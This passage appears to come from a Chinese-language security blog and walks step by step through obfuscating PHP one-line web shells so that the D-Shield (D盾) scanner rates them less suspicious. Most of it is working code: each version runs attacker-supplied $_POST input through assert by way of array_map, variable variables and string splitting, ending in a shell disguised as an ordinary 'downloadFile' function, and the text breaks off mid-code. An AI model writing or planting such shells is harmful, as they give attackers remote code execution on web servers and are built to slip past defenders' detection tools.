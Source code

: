```
<?php
$fun = 'assert';
array_map($fun,array($_POST['x']));

```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39kdQppTLXXLzpY5DadyYNqOKHK2ISiak0CCBTtUNQBB0JdAia6ObkHB9uDEsM146P40v1azGoEMOSA/640?wx_fmt=jpeg)

可以看到上面的都是通过两种方法的结合，简单的处理一下，就变成了 4 级，感兴趣的可以把其他的方法都尝试一下，4 级的很简单，我们去看看 3 级的都是怎么处理的

通过上面的`动态函数方法`我们可以思考，函数可以当成字符串赋值给变量，那么变量也一定能当成字符串赋值给变量，但调用时需要用`$$`

```
<?php
$a = "assert";
$c ='a';
$$c($_POST['x']);

```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39kdQppTLXXLzpY5DadyYNq2nTdrcW2VGbib0xqiaLFmeXAQ3l6f0FukmKAQKAQ1mAFhZLRQwzPvtgA/640?wx_fmt=jpeg)

我们在把这种方法结合到回调函数方法中，可以看到，已经是 2 级了

```
<?php
$fun = 'assert';
$f = 'fun';
array_map($$f,array($_POST['x']));

```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39kdQppTLXXLzpY5DadyYNqibibbmH5Y1YvkcoQgtHhbHMYOv2pJca2AhiaSxWHyKTuTU0YAJXdU7Q2w/640?wx_fmt=jpeg)

这时候我们看一下 D 盾中的说明：`array_map中的参数可疑`，我们这时候可以用函数封装一下参数

```
<?php
function ass(){
    $a = "a451.ass.aaa.ert.adaww";
    $b = explode('.',$a);
    $c = $b[1] . $b[3];
    return $c;
}
$b = array($_POST['x']);
$c = ass();
array_map($c,$b);

```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39kdQppTLXXLzpY5DadyYNqkibfkgx6ZLH5Leib0V3QTibAeHhIawOFt6QyIymBj3iayBl3CQXlH8ppibQ/640?wx_fmt=jpeg)

1 级了，离目标近在咫尺了，这时候我们应该考虑让一句话木马像正常的代码，在好好的封装一下

```
<?php
function downloadFile($url,$x){
    $ary = parse_url($url);
    $file = basename($ary['path']);
    $ext = explode('.',$file);
    // assert
    $exec1=substr($ext[0],3,1);
    $exec2=substr($ext[0],5,1);
    $exec3=substr($ext[0],5,1);
    $exec4=substr($ext[0],4,1);
    $exec5=substr($ext[0],7,2);
    $as[0] = $exec1 . $exec2 . $exec3 . $exec4 . $exec5;
    $as[1] = $x;
```
